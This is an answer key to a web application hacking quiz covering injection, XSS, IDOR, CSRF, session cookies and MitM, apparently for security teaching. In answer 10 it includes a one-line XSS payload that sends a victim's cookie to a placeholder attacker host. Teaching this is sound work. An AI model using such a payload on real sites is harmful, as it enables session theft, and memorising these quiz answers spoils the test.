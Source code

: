 # Answers: Quiz - Web Application Hacking

Here are the answers to the quiz found in `web_hacking/quiz.md`.

## Multiple Choice

1.  **Which OWASP Top 10 vulnerability involves an attacker sending hostile data to an interpreter as part of a command or query?**
    *   **C. Injection (e.g., SQLi, Command Injection)**
    *   *Explanation:* Injection flaws cover vulnerabilities where attacker-supplied data can manipulate backend interpreters like SQL, LDAP, OS commands, etc.

2.  **What is the primary defense against SQL Injection vulnerabilities?**
    *   **C. Using prepared statements (parameterized queries).**
    *   *Explanation:* Prepared statements ensure that user input is treated as data, not as executable code, preventing it from altering the SQL query's structure.

3.  **A web application reflects user input from a URL parameter directly onto the page without proper sanitization. If this input includes a script, what vulnerability is present?**
    *   **B. Reflected Cross-Site Scripting (XSS)**
    *   *Explanation:* Reflected XSS occurs when malicious script is passed in the request (e.g., URL parameter) and then reflected back and executed in the victim's browser.

4.  **Which of the following best describes an Insecure Direct Object Reference (IDOR) vulnerability?**
    *   **C. An application exposes a reference to an internal implementation object (e.g., a file or database key) without proper access control.**
    *   *Explanation:* IDOR occurs when an attacker can change an ID parameter (e.g., user_id, file_id) to access resources they are not authorized for.

5.  **What is a common mitigation technique for Cross-Site Request Forgery (CSRF)?**
    *   **B. Using anti-CSRF tokens (synchronizer tokens).**
    *   *Explanation:* Anti-CSRF tokens are unique, unpredictable values that the server checks to ensure a state-changing request was intentionally submitted by the user from within the application.

## True/False

6.  **True or False:** Client-side validation is sufficient to prevent XSS vulnerabilities.
    *   **False.**
    *   *Explanation:* Client-side validation can be easily bypassed by an attacker (e.g., by disabling JavaScript or modifying requests with a proxy). Server-side validation and output encoding are crucial for preventing XSS.

7.  **True or False:** "Security through obscurity" (e.g., hiding directory names) is a robust defense against web attacks.
    *   **False.**
    *   *Explanation:* Obscurity might make it slightly harder for casual attackers but is not a reliable security control. Determined attackers can often find hidden resources through other means. Robust security relies on proper configuration and access controls.

8.  **True or False:** HTTPS encrypts the URL path and query parameters, preventing them from being seen by network sniffers.
    *   **True.**
    *   *Explanation:* The path and query string are part of the HTTP request data that is encrypted within the TLS tunnel once the secure connection is established. While the hostname is visible via SNI during the TLS handshake, the rest of the URL (path and query parameters) is protected from passive external sniffers.

## Short Answer

9.  **Explain the difference between Stored XSS and Reflected XSS.**
    *   *Answer:* **Stored XSS** occurs when the malicious script is permanently stored on the target server (e.g., in a database via a comment field) and is served to any user who views that content. **Reflected XSS** occurs when the malicious script is injected via a request (e.g., a URL parameter or form submission) and is immediately reflected back by the web server in the response and executed in the victim's browser. It requires the victim to click a crafted link or submit a malicious form.

10. **What is the purpose of a session cookie in a web application? List one way an attacker might try to compromise a session cookie.**
    *   *Answer:* The purpose of a session cookie is to maintain a user's logged-in state and track their activity across multiple requests, as HTTP is stateless. It allows the server to identify the user without requiring them to log in for every page view.
    *   One way an attacker might compromise a session cookie is by:
        *   Stealing it via an XSS attack (`<script>document.location='http://attacker.com/cookiestealer.php?cookie=' + document.cookie</script>`).
        *   Sniffing it from unencrypted (HTTP) traffic.
        *   Session fixation (tricking a user into using a session ID known to the attacker).
        *   Guessing predictable session IDs.

11. **Briefly describe what a "Man-in-the-Middle" (MitM) attack is in the context of web applications.**
    *   *Answer:* A Man-in-the-Middle (MitM) attack occurs when an attacker secretly positions themselves between a user and a web application, intercepting and potentially altering their communication. For example, an attacker on the same Wi-Fi network could intercept HTTP traffic, or if they can trick a user into installing a rogue CA certificate, they could even intercept and decrypt HTTPS traffic.

12. **Why is it important to keep web server software and all third-party components (libraries, frameworks) up to date?**
    *   *Answer:* It's important because software and components often have vulnerabilities discovered over time. Updates and patches are released by vendors to fix these known vulnerabilities. Failing to update leaves the web application exposed to attacks that exploit these known weaknesses, which is a common way systems are compromised (often referred to as "N-day" vulnerabilities).
